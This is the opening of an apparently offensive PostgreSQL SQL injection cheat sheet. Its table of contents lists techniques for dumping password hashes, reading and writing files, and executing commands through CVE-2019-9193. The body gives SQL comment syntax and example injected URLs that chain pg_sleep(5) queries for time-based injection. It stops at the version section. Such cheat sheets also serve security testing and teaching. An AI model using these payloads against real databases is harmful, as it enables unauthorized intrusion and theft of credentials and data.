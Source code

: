 # PostgreSQL injection

## Summary

* [PostgreSQL Comments](#postgresql-comments)
* [PostgreSQL version](#postgresql-version)
* [PostgreSQL Current User](#postgresql-current-user)
* [PostgreSQL List Users](#postgresql-list-users)
* [PostgreSQL List Password Hashes](#postgresql-list-password-hashes)
* [PostgreSQL List Database Administrator Accounts](#postgresql-list-database-administrator-accounts)
* [PostgreSQL List Privileges](#postgresql-list-privileges)
* [PostgreSQL Check if Current User is Superuser](#postgresql-check-if-current-user-is-superuser)
* [PostgreSQL database name](#postgresql-database-name)
* [PostgreSQL List databases](#postgresql-list-database)
* [PostgreSQL List tables](#postgresql-list-tables)
* [PostgreSQL List columns](#postgresql-list-columns)
* [PostgreSQL Error Based](#postgresql-error-based)
* [PostgreSQL XML Helpers](#postgresql-xml-helpers)
* [PostgreSQL Blind](#postgresql-blind)
* [PostgreSQL Time Based](#postgresql-time-based)
* [PostgreSQL Stacked query](#postgresql-stacked-query)
* [PostgreSQL File Read](#postgresql-file-read)
* [PostgreSQL File Write](#postgresql-file-write)
* [PostgreSQL Command execution](#postgresql-command-execution)
    * [CVE-2019–9193](#cve-20199193)
    * [Using libc.so.6](#using-libcso6)
* [Bypass Filter](#bypass-filter)
* [References](#references)

## PostgreSQL Comments

```sql
--
/**/  
```

## PostgreSQL chain injection points symbols
```sql
; #Used to terminate a SQL command. The only place it can be used within a statement is within a string constant or quoted identifier.
|| #or statement 

# usage examples: 
/?whatever=1;(select 1 from pg_sleep(5))
/?whatever=1||(select 1 from pg_sleep(5))
```

## PostgreSQL Version
